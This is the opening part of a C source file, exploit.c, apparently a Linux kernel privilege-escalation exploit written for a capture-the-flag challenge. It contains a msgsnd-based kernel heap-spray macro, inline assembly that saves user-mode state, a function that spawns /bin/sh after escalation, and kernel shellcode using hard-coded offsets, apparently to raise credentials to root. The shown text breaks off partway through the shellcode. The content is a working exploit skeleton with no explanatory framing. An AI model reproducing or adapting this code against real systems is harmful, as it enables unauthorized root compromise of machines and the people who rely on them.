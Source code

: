 ```exploit.c

// utils
#define WAIT getc(stdin);
#define REP(N) for(int iiiiix=0;iiiiix!=N;++iiiiix)
#define ulong unsigned long
#define scu static const unsigned long
#define NULL (void*)0
#define errExit(msg) do { perror(msg); exit(EXIT_FAILURE); \
                        } while (0)
#define KMALLOC(qid, msgbuf, N) for(int ix=0; ix!=N; ++ix){\
                        if(msgsnd(qid, &msgbuf, sizeof(msgbuf.mtext) - 0x30, 0) == -1) errExit("KMALLOC");}
ulong user_cs,user_ss,user_sp,user_rflags;
struct pt_regs {
	ulong r15; ulong r14; ulong r13; ulong r12; ulong bp;
	ulong bx;  ulong r11; ulong r10; ulong r9; ulong r8;
	ulong ax; ulong cx; ulong dx; ulong si; ulong di;
	ulong orig_ax; ulong ip; ulong cs; ulong flags;
  ulong sp; ulong ss;
};
void print_regs(struct pt_regs *regs)
{
  printf("r15: %lx r14: %lx r13: %lx r12: %lx\n", regs->r15, regs->r14, regs->r13, regs->r12);
  printf("bp: %lx bx: %lx r11: %lx r10: %lx\n", regs->bp, regs->bx, regs->r11, regs->r10);
  printf("r9: %lx r8: %lx ax: %lx cx: %lx\n", regs->r9, regs->r8, regs->ax, regs->cx);
  printf("dx: %lx si: %lx di: %lx ip: %lx\n", regs->dx, regs->si, regs->di, regs->ip);
  printf("cs: %lx flags: %lx sp: %lx ss: %lx\n", regs->cs, regs->flags, regs->sp, regs->ss);
}
void NIRUGIRI(void)
{
  printf("[!!!] NIRUGIRI!!!\n");
  char *argv[] = {"/bin/sh",NULL};
  char *envp[] = {NULL};
  execve("/bin/sh",argv,envp);
}
// should compile with -masm=intel
static void save_state(void) {
  asm(
      "movq %0, %%cs\n"
      "movq %1, %%ss\n"
      "movq %2, %%rsp\n"
      "pushfq\n"
      "popq %3\n"
      : "=r" (user_cs), "=r" (user_ss), "=r"(user_sp), "=r" (user_rflags) : : "memory" 		);
  printf("[+] save_state: cs:%lx ss:%lx sp:%lx rflags:%lx\n", user_cs, user_ss, user_sp, user_rflags);
}

static void shellcode(void){
  asm(
    "xor rdi, rdi\n"
    "mov rbx, QWORD PTR [rsp+0x50]\n"
    "sub rbx, 0x244566\n"
    "mov rcx, rbx\n"
    "call rcx\n"
    "mov rdi, rax\n"
    "sub rbx, 0x470\n"
    "call rbx\n"
    "add rsp, 0x20\n"
    "pop rbx\n"
    "pop r12\n"
    "pop r13\n"
    "pop r14\n"
```